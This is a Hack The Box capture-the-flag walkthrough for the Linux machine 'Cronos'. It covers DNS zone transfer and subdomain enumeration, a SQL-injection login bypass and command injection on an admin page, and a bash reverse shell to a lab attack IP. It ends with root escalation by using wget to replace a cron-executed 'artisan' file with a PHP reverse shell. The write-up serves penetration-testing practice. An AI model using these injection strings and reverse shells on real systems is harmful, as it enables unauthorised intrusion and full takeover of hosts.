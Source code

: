 # Cronos

**OS:** Linux

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/cronos)  [2](https://app.hackthebox.com/machines/Cronos)

**Machine ip:** 10.10.10.13

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/197dcde6-c564-41a2-83c6-17d2fc0e5895)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.13 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.13`
+ `sudo nmap -Pn -sV -sC -sU -p$ports 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/91f25735-459a-4a75-a798-2c419bd4a7c1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e7764b71-bd50-4af5-ab88-80b1f69cbd8b)

+ dns enumeration: `nslookup`
```
└─$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8878f5ed-c712-45c6-aa14-0b093ff5139c)

+ dns enumeration: `nslookup host [server]`
+ `nslookup 10.10.10.13 10.10.10.13`
```
└─$ nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/08c7ad57-ee86-4e75-8e75-e12dd33f9c64)

+ Zone transfer: `host -l <domain-name> <dns_server-address>`
+ `host -l cronos.htb 10.10.10.13`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/85af127e-788f-4388-960a-f43543698b49)


+ Zoner transfer: `dig axfr @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ac1ace97-a6ec-4bb8-958d-5d740aaf4e59)

+ `dig any @10.10.10.13 cronos.htb`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc415b9e-da19-489d-a4b8-8ca809bf085b)

+ Add domains into `/etc/hosts` file
```
echo "10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

+ Enumerate subdomain:
```
gobuster dns -d cronos.htb -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/443694fe-6171-479f-8ff4-92d5bc986ca1)

+ Navigate to `http://admin.cronos.htb/`
+ Login bypass injecting `admin' or '`:`pass`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9bcf5f5e-d294-4d8c-94c1-e7b104bbd065)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4e8644a6-27b4-4344-89e3-1212103589d8)

+ Use `;` to inject command, and that works.

## Gainin Access

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5933aa22-258b-4e2a-a2ec-dd75145e7892)

+ Start a netcat listener: `nc -lnvp 4444`
+ Inject reverse payload after `;`  `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"` and execute.
+ Get shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/765ae797-f4f3-4efc-8602-2587e6aeba6a)


## Privilege Escalation

+ Check cronjobs: `cat /etc/crontab` on the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f5fd4a0-4895-4cbb-bc40-6ef8ece43146)

+ `cp /usr/share/webshells/php/php-reverse-shell.php shell.php` on your attack machine.
+ Change ip address and port number.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b08c2273-d780-4622-9ed4-f50cd8f50d9b)

+ Start `python3 -m http.server` on the attack machine.

+ Transfer to the target.
+ `cd /var/www/laravel/` on the target.
+ `wget 10.10.14.18:8000/shell.php -O artisan` on the target.
+ `chmod +x artisan` on the target.

+ Start listener: `nc -lnvp 5555` on your attack machine.
+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bca0fd82-2a1b-4293-bbe0-8f697cba3cdd)


# References & Alternatives
+ https://vvmlist.github.io/#cronos
+ https://0xdf.gitlab.io/2020/04/14/htb-cronos.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/cronos-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-cronos/
+ https://alessandrocristofanilli.xyz/posts/htb-cronos/
+ https://systemweakness.com/htb-cronos-walkthrough-3f669386b681
+ https://dev.to/sshad0w/hack-the-box-writeup-cronos-21bn
+ https://www.noobsec.net/hackthebox/htb-cronos/
+ https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726
+ https://sevenlayers.com/index.php/133-hackthebox-cronos-walkthrough
